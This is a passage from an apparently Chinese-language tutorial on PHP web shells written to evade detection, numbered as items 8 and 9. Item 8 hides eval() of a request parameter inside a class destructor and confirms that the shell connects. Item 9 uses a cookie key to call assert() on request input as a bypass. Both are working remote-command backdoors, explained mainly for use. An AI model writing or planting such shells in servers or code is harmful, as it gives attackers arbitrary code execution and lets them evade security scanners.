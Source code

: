 #### 8.通过类定义，然后传参分割​​​​​​​

```
&lt;?php



class User

{

public $name = '';

function __destruct(){

eval("$this-&gt;name");

}

}

$user = new User;

$user-&gt;name = ''.$_REQUEST[1];

?&gt;
```

通过类定义，定义一个类User,设置$name为空，然后设置一个析构函数，脚本运行结束之前会调用对象，然后eval去执行,后面用new函数将对象实例化并输出方法，<br/> 然后，$user-&gt;name这个相当于是$this-&gt;name，等于’’.$_REQUEST[1];<br/> 最后$user-&gt;name = ‘’.$_REQUEST[1]; 相当于eval($_REQUEST[1])

测试可以正常连接

#### 9.多传参方式绕过​​​​​​​

```
&lt;?php

$COOKIE = $_COOKIE;

foreach($COOKIE as $key =&gt; $value){

if($key=='assert'){

$key($_REQUEST['s']);

}

}

?&gt;
```
